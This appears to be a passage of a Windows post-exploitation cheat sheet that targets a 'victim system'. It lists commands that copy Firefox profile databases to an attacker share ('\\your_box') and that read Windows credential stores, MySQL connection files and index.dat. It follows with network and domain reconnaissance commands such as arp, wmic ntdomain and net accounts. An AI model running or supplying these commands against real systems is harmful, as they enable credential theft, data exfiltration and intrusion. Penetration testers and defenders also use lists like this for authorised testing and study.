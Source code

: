 rundll32.exe user32.dll, LockWorkStation: locks the screen

wscript.exe <script js/vbs>

cscript.exe <script js/vbs/c#>

xcopy /C /S %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\your_box

type "C:\documents and settings\administrator\userdata\index.dat"

type %WINDIR%\System32\drivers\etc\hosts: view contents of hosts files

type "c:\Documents and Settings\Administrator\Local Settings\Application Data\Microsoft\Credentials"

cd "C:/Documents and settings\administrator\userdata" & dir

type "c:\Documents and Settings\Administrator\Desktop\UserMysql.txt"

type "c:\Documents and Settings\Administrator\Application Data\MySQL\mysqlx_user_connections.xml"

type "C:\documents and settings\administrator\userdata\index.dat"


# Windows CMD Network Commands

The Windows commands below will help you gather information about the victim system's network connections, devices and capabilities and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

## ipconfig
### Retrieve Local DNS Cache Info
 * **Command with arguments**: `ipconfig /displaydns`
 * **Description**: Displays the system's local DNS cache.

### Retrieve NIC Info
 * **Command with arguments**: `ipconfig /all`
 * **Description**: Displays the full information about the system's network interface cards (NICs).

## Misc
### arp
 * **Command with arguments**: `arp -a`
 * **Description**: Lists all the systems currently in the machine's ARP table.

### wmic
 * **Command with arguments**: `wmic ntdomain list`
 * **Description**: Retrieve information about Domain and Domain Controller.

## net
For more information: http://technet.microsoft.com/en-us/library/bb490949.aspx

### Accounts
 * **Command with arguments**: `net accounts [/domain | /domain:OTHERDOMAINNAME]`
 * **Description**: Prints the password policy for the local system. Pass it the `/domain` option to query the domain for the domain password policy.
